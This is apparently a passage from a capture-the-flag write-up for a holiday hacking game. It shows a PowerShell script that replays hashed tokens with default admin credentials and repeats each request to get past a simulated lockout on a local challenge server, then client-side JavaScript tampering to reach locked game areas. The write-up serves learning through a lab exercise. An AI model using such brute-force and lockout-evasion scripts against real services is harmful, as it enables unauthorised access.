3e03cd0f3d335c6fb50122553f63ef78,E2DBBDBCC7E57E526841899975B6621105710E76C203C1DC30419E7F1CBA5297
f2aeb18f5b3f08420eed9b548b6058c3,BC83A2C7A6279EAD36370AB3509FEA7483EFF83C164FC7CFE3C680D879B9F9D2
32b9401a6d972f8c1a98de145629ea9d,B93772D2393029424049564B366F08B21E66282CE3D7B9DA4F7A69C8891012A0
3a79238df0a92ab0afa44a85f914fc3b,989FDE082FB901AE5EDFD873BF41A76BF47B318F76968D0275DAD99ABD5894B4
49c2a68b21b9982aa9fd64cf0fd79f72,E2B80B2C70BA5982814B758849472C8711AF8051E5261CE827C02818D7E1DE8C
...omitted for brevity...
```

I then wrote a quick Powershell script to iterate over each of them elevent times, as the elves' hints told us that the EDR is faked and will lie that the endpoint didn't work for the first ten times. It also says that the `attemps` cookie you get for one endpoint may be valid for another - so I needed to try them all. Messages when retrieving the endpoints will also tell you the threshhold is set to ten:

```powershell
$user = 'admin'
$pass = 'admin'

$pair = "$($user):$($pass)"

$encodedCreds = [System.Convert]::ToBase64String([System.Text.Encoding]::ASCII.GetBytes($pair))

$basicAuthValue = "Basic $encodedCreds"

$Headers = @{
    Authorization = $basicAuthValue
}

$data = Import-Csv -Path "./token_overview_revealed.csv"

$session = New-Object Microsoft.PowerShell.Commands.WebRequestSession

foreach ($row in $data) {
    $cookie = New-Object System.Net.Cookie # Create a new cookie
    $cookie.Name = "token"
    $cookie.Value = $row.file_MD5hash
    $cookie.Domain = "127.0.0.1"
    $session.Cookies.Add($cookie)
    $url = "http://127.0.0.1:1225/tokens/" + $row.'Sha256(file_MD5hash)'
   
    $result = Invoke-WebRequest -Uri $url -Headers $Headers -WebSession $session

    $cookie.Name = "mfa_token"
    $cookie.Value = $result.Links[0].href
    $session.Cookies.Add($cookie)

    $url = "http://127.0.0.1:1225/mfa_validate/" + $row.'Sha256(file_MD5hash)'

    for($i=0; 11 -ge $i; $i++) {
        $response = Invoke-WebRequest -Uri $url  -Headers $Headers -WebSession $session
        $response.Content | Out-File -FilePath ./finalout.txt -Append
    }
}
```

Result:

```html
<h1>[-] ERROR: Access Denied</h1><br> [!] Logging access attempts
<h1>[+] Success, defense mechanisms deactivated.</h1><br>Administrator Token supplied, You are able to control the production and deployment of the snow cannons. May the best elves win: WombleysProductionLineShallPrevail</p>
```

WombleysProductionLineShallPrevail

## Extra: Shenanigans trying to break into the act

Before Act II officially started, I was waiting to release my Act I writeup and was eager to move along. I started examining the source of the game, specifically the menu that allows you to jump between acts in the game, `chunk.badgenarrative.69f45062.js`. Within that, there is a method that references teleportation and includes descriptions of each of the acts:

```javascript
 const h = e => () => {
            Object(i.j)({
                type: "TELEPORT_USER",
                destination: e
            })
        }
          , d = ["**PROLOGUE**\n\nWelcome back to the Geese Islands!  Let's help the elves pack up to return to the North Pole.\n\n*Talk to Jingle, Angel, and Poinsettia about their challenges.*", "With challenges solved, we're ready to head to the North Pole! Let's hope Santa is back already to direct operations.", "**ACT I**\n\nWith Santa away, Wombley Cube and Alabaster Snowball have each tried to lead. Surely they won't mess up the naughty and nice list...\n\n*Help Bow, Morcel, and Jewell solve their challenges.*", "This division among the elves can't be good. Surely it won't get any worse.", "**ACI II**\n\nWombley's getting desparate. Out-elved by Alabaster's faction, he's planning a gruesome snowball fight to take over present delivery!\n\n*Piney, Chimney, and Eve each need your help.*", "Both sides want to see Christmas mission fulfilled. Will either yield? Who can bring order to such chaos?", "**ACI III**\n\nNow Wombley's gone and gotten the naughty and nice list ransomwared! Santa is not pleased...\n\n*Maybe Fitzy, Ribb, and Tangle can help mend the situation.*", "Thank you dear player for bringing peace and order back to the North Pole!\n\n*Please talk to Santa in the castle.*", "Cliffhanger for next year?"]
          , m = d.length
          , b = (e, t) => o.a.createElement("button", {
            className: "button act-teleport-btn",
            onClick: h(e)
        }, t);
```

I used the debugger to break on this function call and found that it used destinations like `frontyardact1`. I decided to override the file in Chrome and try things like `frontyardact2`:

```javascript
const h = e => () => {
            Object(i.j)({
                type: "TELEPORT_USER",
                destination: "frontyardact2"
...omitted for brevity...
```

Attempting to teleport landed me in the Shenanigans purgatory:


There's an exit at the back that takes you nowhere! This will work on seemingly any invalid destination string. As far as I can tell this has been around in the game for a few years.

Neat!

## Conclusion

Act 2 was more technical and fun, even if TGC wrote a horribly mean challenge (that didn't require Python _or_ Google Maps) with a nice little side quest. [Onward!](../act3/README.md)